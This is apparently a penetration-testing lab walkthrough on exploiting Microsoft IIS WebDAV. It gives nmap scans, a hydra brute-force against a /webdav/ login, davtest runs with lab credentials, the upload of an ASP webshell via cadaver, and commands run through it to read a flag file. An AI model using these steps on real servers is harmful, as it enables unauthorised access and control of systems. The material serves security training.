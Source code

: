 # Exploiting Microsoft IIS WebDAV

## Overview

This section details the process of exploiting a Microsoft IIS WebDAV server. It includes basic information about IIS and WebDAV, steps for identifying and exploiting WebDAV vulnerabilities, and a list of tools used in the process.

## Microsoft IIS

- **IIS (Internet Information Services)**: Proprietary web server software developed by Microsoft for the Windows NT family.
- **Usage**: Hosting websites and web applications with a robust GUI for managing them.
- **Supported File Types**: .asp, .aspx, .config, .php.
- **Ports**: Typically runs on port 80 (HTTP) or 443 (HTTPS with SSL certificate).

## WebDAV

- **WebDAV (Web-based Distributed Authoring and Versioning)**: Extensions to the HTTP protocol allowing collaborative file management on remote web servers.
- **Functionality**: Enables a web server to act as a file server.
- **Ports**: Operates on the same ports as IIS (80/443).
- **Authentication**: Requires legitimate credentials (username and password).

## WebDAV Exploitation

1. **Identification**: Determine if WebDAV is configured on the IIS server.
2. **Brute-force Attack**: Identify legitimate credentials for authentication.
3. **Exploitation**: Authenticate with the server and upload a malicious payload (e.g., .asp file) to execute commands or obtain a reverse shell.

## Tools

- **davtest**: Scans, authenticates, and exploits WebDAV servers. Pre-installed on offensive testing distros like Kali and Parrot.
- **cadaver**: Supports file operations (upload, download, delete) and resource locking on WebDAV servers. Also pre-installed on offensive testing distros.

## Credentials

| Username | Password         |
|----------|------------------|
| bob      | password_123321  |

## Basic Scans

1. **Initial Scan**: Identify open ports and services.

nmap -sV -sC 10.2.23.231

2. **Service Enumeration**: Identify directories and services on port 80.

`nmap -sV -p 80 --script=http-enum 10.2.23.231`
`Reveals the presence of the WebDAV directory.`

### Brute Force Authentication

`hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.2.23.231 http-get /webdav/`
Perform a brute-force attack on the WebDAV authentication form:

### Running davtest

1. **Without Authentication**:

davtest -url http://10.2.23.231/webdav
- Fails due to lack of authentication.

2. **With Authentication**:

davtest -auth bob
`-url http://10.2.23.231/webdav`
- Enumerates executable file formats and uploads to the /webdav directory.

### Uploading a .asp Backdoor

`cadaver http://10.2.23.231/webdav`
using cadaver

`put /usr/share/webshells/asp/webshell.asp`
Upload backdoor

3. **List directory**:

`ls`
- Confirms the upload of the backdoor.

### Exploiting the Backdoor

1. **Access Webshell**:
- Open the browser and navigate to `http://10.2.23.231/webdav/webshell.asp`.
2. **Execute Commands**:
- Example commands to list directory and view a file:

  `dir C:\`
  `type c:\flag.txt`

  







  
